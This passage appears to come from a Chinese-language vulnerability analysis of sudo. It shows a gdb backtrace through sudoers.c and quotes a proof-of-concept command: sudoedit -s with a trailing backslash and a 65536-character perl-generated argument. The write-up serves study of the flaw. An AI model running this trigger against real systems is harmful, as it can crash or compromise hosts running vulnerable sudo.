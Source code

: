 ![image-20210403023947915](README.assets/image-20210403023947915.png)

```
#0  set_cmnd () at ../../../plugins/sudoers/sudoers.c:857
#1  0x00007f2892e36cf4 in sudoers_policy_main (argc=argc@entry=0x3, argv=argv@entry=0x56435dfcb220, pwflag=pwflag@entry=0x0, env_add=env_add@entry=0x0, verbose=verbose@entry=0x0, closure=closure@entry=0x7ffddfd1dc40) at ../../../plugins/sudoers/sudoers.c:353
#2  0x00007f2892e2fbb2 in sudoers_policy_check (argc=0x3, argv=0x56435dfcb220, env_add=0x0, command_infop=0x7ffddfd1dd00, argv_out=0x7ffddfd1dd08, user_env_out=0x7ffddfd1dd10, errstr=0x7ffddfd1dd28) at ../../../plugins/sudoers/policy.c:984
#3  0x000056435c62de6a in policy_check (user_env_out=0x7ffddfd1dd10, argv_out=0x7ffddfd1dd08, command_info=0x7ffddfd1dd00, env_add=0x0, argv=0x56435dfcb220, argc=0x3) at ../../src/sudo.c:1161
#4  main (argc=<optimized out>, argv=<optimized out>, envp=<optimized out>) at ../../src/sudo.c:272
```



## 源码分析

### parse_args

文末引用 [1] 给的 POC ：

```bash
sudoedit -s '\' `perl -e 'print "A" x 65536'` 
```

![image-20210404235959152](README.assets/image-20210404235959152.png)
